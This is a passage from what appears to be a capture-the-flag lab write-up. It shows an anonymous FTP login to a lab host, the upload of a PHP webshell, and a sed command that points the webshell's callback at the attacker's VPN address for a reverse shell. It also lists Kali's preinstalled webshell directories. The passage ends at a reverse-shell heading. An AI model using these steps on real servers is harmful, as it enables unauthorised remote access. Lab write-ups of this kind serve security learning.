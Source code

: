 ```commandline
Connected to 10.10.218.64.
220 (vsFTPd 3.0.3)
Name (10.10.218.64:itchy): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd ftp
250 Directory successfully changed.
ftp> put webshell.php
local: webshell.php remote: webshell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5493 bytes sent in 0.00 secs (45.5525 MB/s)
ftp> exit
221 Goodbye.
```

- `mkdir -p` - Create parent directories if it does not exist. If exist, STFU (sorry).
- `ifconfig tun0 | grep -i 'inet ' | awk -F' ' '{print $2}'` - To get my ip of my `tun0` (VPN) device. Using `ip a`, `ip addr` or `ifconfig tun0` or whatever is boring. It's not for nothing I have to write down everything :-D
- `sed -i s@127.0.0.1@10.8.208.30@ webshell.php` - An easy trick for lazy people.

So far so good. Ready to move to the next step.

**Bonus tip**

Show up the directory (`-d`) structure of preinstalled webshells `/usr/share/webshells/` but maybe is that nice little tree tool not installed yet (`sudo apt install tree`):

```commandline
┌──(itchy㉿scratchy)-[~/tools/webshells]
└─$ tree -d /usr/share/webshells/
/usr/share/webshells/
├── asp
├── aspx
├── cfm
├── jsp
├── laudanum -> /usr/share/laudanum
├── perl
└── php
    └── findsocket

8 directories
```

It is always good to look to all the goodies we have at your disposal.

## Reverse (web)shell connection
